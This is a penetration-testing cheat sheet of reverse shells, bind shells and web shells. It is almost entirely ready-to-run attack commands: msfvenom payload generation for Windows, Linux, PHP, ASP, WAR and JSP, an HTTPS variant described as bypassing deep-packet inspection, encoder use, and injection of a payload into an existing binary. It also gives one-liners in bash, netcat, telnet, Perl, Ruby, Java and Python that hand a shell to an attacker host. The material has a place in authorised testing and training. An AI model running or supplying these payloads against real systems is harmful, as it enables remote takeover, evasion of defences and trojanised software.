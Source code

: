 # Shells

This is s great collection of different types of reverse shells and webshells. Many of the ones listed below comes from this cheat-sheet:  
[https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## Msfvenom

There is an important difference between non-staged and staged payload. A **non-staged** shell is sent over in one block. You just send shell in one stage. This can be caught with metasploit multi-handler. But also with netcat.

**staged** shells send them in turn. This can be useful for when you have very small buffer for your shellcode, so you need to divide up the payload. Meterpreter is a staged shell. First it sends some parts of it and sets up the connection, and then it sends some more. This can be caught with metasploit multi-handler but not with netcat.

### Windows

#### Meterpreter

**Standard meterpreter**

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -o shell_reverse.exe
```

```text
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

**Meterpreter HTTPS**

It makes the meterpreter-traffic look normal. Since it is hidden in https the communication is encrypted and can be used to bypass deep-packet inspections.

```text
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.101 LPORT=443 -f exe -o met_https_reverse.exe
```

#### Non-staged payload

```text
msfvenom -p windows/shell_reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o shell_reverse_tcp.exe
```

```text
use exploit/multi/handler
set payload windows/shell_reverse_tcp
```

#### Staged payload

```text
msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe
```

This must be caught with metasploit. It does not work with netcat.

```text
use exploit/multi/handler
set payload windows/shell/reverse_tcp
```

#### Avoid bad characters

 With shikata\_ga\_nai `msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=<IP> LPORT=<PORT> -f c -e x86/shikata_ga_nai -b "\x04\xA0"`

 With fnstenv\_mov `msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=<IP> LPORT=<PORT> -f c -e x86/fnstenv_mov -b "\x04\xA0"`

### Inject payload into binary

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

### Linux

#### Perl

```text
msfvenom -p cmd/unix/reverse_perl LHOST=<IP> LPORT=<PORT> -f raw > shell.pl
```

#### Python

```text
msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > shell.py
```

#### Binary

```text
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f elf > shell.elf
```

## Bash

```text
0<&196;exec 196<>/dev/tcp/192.168.1.101/80; sh <&196 >&196 2>&196
```

```text
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Php

```text
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Netcat

### **Bind shell**

```text
#Linux
nc -vlp 5555 -e /bin/bash
nc 192.168.1.101 5555

# Windows
nc.exe -nlvp 4444 -e cmd.exe
```

### **Reverse shell**

```text
# Linux
nc -lvp 5555
nc 192.168.1.101 5555 -e /bin/bash

# Windows
nc -lvp 443
nc.exe 192.168.1.101 443 -e cmd.exe
```

### **With -e flag**

```text
nc -e /bin/sh ATTACKING-IP 80
```

```text
/bin/sh | nc ATTACKING-IP 80
```

### **Without -e flag**

```text
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

Upgrade Netcat shell to an interactive: [https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

## Ncat

Ncat is a better and more modern version of netcat. One feature it has that netcat does not have is encryption. If you are on a pentestjob you might not want to communicate unencrypted.

### Bind

```text
ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --ssl
ncat -v 192.168.1.103 5555 --ssl
```

## sdb

sdb is an other alternative to Netcat implementing SSL.

[https://tools.kali.org/maintaining-access/sbd](https://tools.kali.org/maintaining-access/sbd)

## Telnet

```text
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```text
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

## Perl

```text
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby

```text
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Java

```text
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## Python

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Web-shells - Platform Independent

### PHP

This php-shell is OS-independent. You can use it on both Linux and Windows.

```text
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php
```

### ASP

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp
```

### WAR

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war
```

### JSP

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.jsp
```

